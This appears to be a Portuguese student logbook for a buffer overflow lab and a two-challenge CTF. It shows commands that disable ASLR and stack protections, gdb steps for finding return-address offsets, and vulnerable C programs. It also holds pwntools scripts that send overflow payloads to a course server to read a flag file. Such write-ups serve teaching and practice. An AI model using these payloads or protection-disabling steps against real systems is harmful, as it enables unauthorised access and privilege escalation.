

# Buffer Overflow Attack Lab

## Environment Setup

Primeiramente, para dar setup simplificar os ataques, foram desligadas algumas proteções do sistema ao dar run aos comandos: <br><br>
`$ sudo sysctl -w kernel.randomize_va_space=0`<br>
`$ sudo ln -sf /bin/zsh /bin/sh`<br>


## Task 1

Agora que demos setup ao environment, compilamos o ficheiro `call_shellcode.c` e demos run a `a32.out` e `a64.out`. <br>


<br>

Como é possível ver nas imagens, em ambos os casos foi aberta uma shell no mesmo terminal onde está o nosso código.<br>

## Task 2

A primeira parte desta tarefa é desativarmos o *StackGuard* e as proteções contra a execução de código invocado desde a stack e também mudar o owner do programa para `root` e ativar o `Set-UID`.<br><br>
`$ gcc -DBUF_SIZE=100 -m32 -o stack -z execstack -fno-stack-protector stack.c`<br>
`$ sudo chown root stack`<br>
`$ sudo chmod 4755 stack`<br>


no entanto, estes comandos todos estão incluídos no `Makefile` dado. Então basta dar run ao comando `make`.<br>

## Task 3

Nesta parte do LOGBOOK5, criamos um ficheiro `badfile` e executamos o código com auxílio do `gdb`, ou seja, executamos o código enquanto damos debug com o objetivo de descobrir a posição do endereço de retorno de `bof()`, colocando um breakpoint na mesma função.<br>
```bash
$ touch badfile                                           # Create an empty badfile
$ gdb stack-L1-dbggdb-peda
$ b bof›Set a break point at function bof()
Breakpoint 1 at 0x124d: file stack.c, line 18.gdb-peda
$ run                                                     # Start executing the program
...
Breakpoint 1, bof (str=0xffffcf57 ...) at stack.c:18
18  {
gdb-peda$ next                                            # See the note below
...
22     strcpy(buffer, str);
gdb-peda$ p $ebp                                          # Get the ebp value
$1 = (void*) 0xffffdfd8
gdb-peda$ p &buffer                                       # Get the buffer’s address
$2 = (char (*)[100]) 0xffffdfac
gdb-peda$ quit
```

Após isto, é necessário alterar alguns parametros no ficheiro `exploit.py`, para inserirmos tudo o que é pretendido no ficheiro `badfile`.<br>
Primeiramente vamos alterar a variável `shellcode` para a de 32 bits que nos é dada no ficheiro `call_shellcode.c`.


Depois disto, criamos uma array (onde todos os bytes são 0x90 (NOP)) de tamanho 517 bytes. <br>

`content = bytearray(0x90 for i in range(517))`<br>

Shellcode no final do array:


De seguida, calculamos o endereço de retorno que aponta para o shellcode a executar e, com os endereços descobertos durante o debug do `stack.c`, calculamos a localização do endereço de retorno relativamente ao inicio do array (offset) e colocamos o novo endereço de retorno que aponta para o shellcode calculado anteriormente (ret)



Após gerar o conteúdo do `badfile`, demos run ao `stack` e verificamos que ficamos com uma root shell.


# Task 4

 Já nesta task, com as informações que temos e tendo em conta o que nos foi pedido, modificamos o `exploit.py` para que ficasse desta forma:<br>


Com isto, voltamos a conseguir ficar com uma root shell.


# CTF Semana 5 (Buffer Overflow)

<h2 align="center">Desafio 1</h2>

## Descrição 
Foi-nos fornecida uma pasta, cujo conteúdo é idêntico ao presente num servidor Linux que se encontra na porta 4003, que contém um ficheiro flag.txt - com a flag que queremos aceder - e um programa C. No entanto, na pasta que nos foi fornecida encontra-se um programa Python, que acede ao servidor e executa o programa C, e é nele que será configurado o exploit para acedermos ao ficheiro da flag no servidor.

Teremos também de seguir as instruções do enunciado para instalar a biblioteca de Pyhton `pwntools`, escrevendo os seguintes comandos no terminal.

```bash
echo 'export PATH="$HOME/.local/bin:$PATH"' >> .bashrc
python3 -m pip install --upgrade pwntools
```


## Análise do problema
Analisando o programa C, verificamos que o buffer lido tem espaço para 32 caracteres, porém o input lido está limitado a 40 caracteres. Desta forma, teremos de preencher o buffer com 32 caracteres quaisquer, e depois disso fornecer algum input que nos permitirá aceder ao ficheiro pretendido.

```C
#include <stdio.h>
#include <stdlib.h>

int main() {
    char meme_file[8] = "mem.txt\0";
    char buffer[32];

    printf("Try to unlock the flag.\n");
    printf("Show me what you got:");
    fflush(stdout);
    scanf("%40s", &buffer);

    printf("Echo %s\n", buffer);

    printf("I like what you got!\n");
    
    FILE *fd = fopen(meme_file,"r");
    
    while(1){
        if(fd != NULL && fgets(buffer, 32, fd) != NULL) {
            printf("%s", buffer);
        } else {
            break;
        }
    }


    fflush(stdout);
    
    return 0;
}
```

Por sua vez, o programa Python acede ao servidor e envia o input que quisermos, e será por aí que tentaremos causar overflow e recolher o conteúdo do ficheiro.

```py
#!/usr/bin/python3
from pwn import *

DEBUG = False

if DEBUG:
    r = process('./program')
else:
    r = remote('ctf-fsi.fe.up.pt', 4003)

r.recvuntil(b":")
r.sendline(b"Tentar nao custa")
r.interactive()
```

## Resolução do problema
Na linha que chama a função r.sendline() - cujo parâmetro é a string que queremos introduzir como input no servidor - escrevemos 32 caracteres quaisquer, para preencher o buffer, e depois `flag.txt`, o ficheiro que queremos aceder. 

Executando o programa python, este é o output recebido:


Submetendo a flag recebida, o Desafio 1 dá-se por concluído.


<h2 align="center">Desafio 2</h2>

## Descrição
Este desafio é idêntico ao anterior na forma como o ataque é feito, porém existem algumas diferenças neste servidor:
* A porta a aceder é 4000 neste caso, ao invés de 4003
* O programa C é ligeiramente diferente em relação ao outro - este impôe uma condição e apenas executará corretamente se esta for verdadeira.

```c
#include <stdio.h>
#include <stdlib.h>

int main() {
    char meme_file[9] = "mem.txt\0\0";
    char val[4] = "\xef\xbe\xad\xde";
    char buffer[32];

    printf("Try to unlock the flag.\n");
    printf("Show me what you got:");
    fflush(stdout);
    scanf("%45s", &buffer);
    if(*(int*)val == 0xfefc2324) {
        printf("I like what you got!\n");
        
        FILE *fd = fopen(meme_file,"r");
        
        while(1){
            if(fd != NULL && fgets(buffer, 32, fd) != NULL) {
                printf("%s", buffer);
            } else {
                break;
            }
        }
    } else {
        printf("You gave me this %s and the value was %p. Disqualified!\n", meme_file, *(long*)val);
    }

    fflush(stdout);
    
    return 0;
}
```

## Resolução do problema
Neste caso, a string fornecida terá de conter o valor `0xfefc2324`, para este ser atribuído à variável `val`, e a condição ser verdadeira. Após isso, teremos de acrescentar o nome do ficheiro (`flag.txt`), que é o que queremos aceder.

```py
#!/usr/bin/python3
from pwn import *

DEBUG = False

if DEBUG:
    r = process('./program')
else:
    r = remote('ctf-fsi.fe.up.pt', 4000)

r.recvuntil(b":")
r.sendline(b"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x24\x23\xfc\xfeflag.txt")
r.interactive()
```

Alterando a porta para 4000, e a string para a que é acima indicada, executamos o programa e este é o output recebido:


Submetendo a flag recebida, dá-se por concluído o Desafio 2, e consequentemente o CTF da semana 5.